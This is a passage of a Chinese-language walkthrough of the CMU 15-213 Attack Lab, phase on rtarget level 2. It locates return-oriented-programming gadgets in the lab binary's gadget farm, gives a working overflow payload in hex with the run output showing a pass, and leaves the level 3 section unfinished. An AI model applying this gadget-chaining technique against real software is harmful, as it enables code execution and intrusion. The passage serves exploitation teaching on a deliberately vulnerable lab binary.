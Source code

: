 ```

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00      mov    $0x1,%eax
  4019d5:	c3                  retq   
```

`pop` 指令的字节码为 `58`（从栈中取出 64 位数据），在上述代码中寻找到 `addval_219` 中存在 `58 90 c3`，其反汇编结果恰好为：

```
0: 58   pop %rax
1: 90   nop
2: c3   retq 
```

其含义即将栈顶数据弹出并放入寄存器 `%rax`，因此第一个 gadget 地址可为 `0x004019ab`。我们可通过缓冲区溢出的形式到达此处（Level 1 的思路）。

接下来我们需要将 `%rax` 中的值复制进 `%rdi`。`mov` 的字节码为 `48`。在 `setval_273` 中找到 `48 89 c7 c3`，其反汇编结果恰好为：

```
0: 48 89 c7     mov    %rax, %rdi
3: c3           retq   
```

因此第二个 gadget 地址为 `0x004019a2`。在执行完这两个 gadget 后，就可以进入 `touch2()` 了，因此栈中接下来要放入 `touch2()` 的地址 `0x004017ec`。

构造缓冲区如下（注意将数据补齐 64 位）：

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

试一试~

```
$ ./hex2raw < hex.txt > raw && ./rtarget -q -i raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

## Level 3+

等到有空的时候继续～

### 要求

要求与 Level 3 一样（调用 `touch3()`），但目标二进制程序变为 `rtarget`。`rtarget` 包含了上述防御措施中的前两种。

### 过程

咕咕咕……

